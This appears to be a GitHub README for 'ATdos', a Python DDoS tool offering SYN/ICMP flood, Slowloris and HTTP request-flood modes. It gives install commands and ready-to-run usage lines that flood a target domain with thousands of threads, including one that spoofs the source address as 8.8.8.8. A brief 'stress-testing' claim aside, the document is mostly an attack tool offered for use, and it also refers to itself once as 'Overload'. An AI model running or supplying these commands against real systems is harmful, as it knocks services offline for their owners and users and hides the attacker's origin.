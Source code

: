 #            ATdos

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install ATdos

```
git clone https://github.com/nacgalevin/ATdos
```
```
cd ATdos
```
```
chmod +x *
```
```
./install.py
```
## Usages
```
usage: ./ATdos.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./ATdos.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```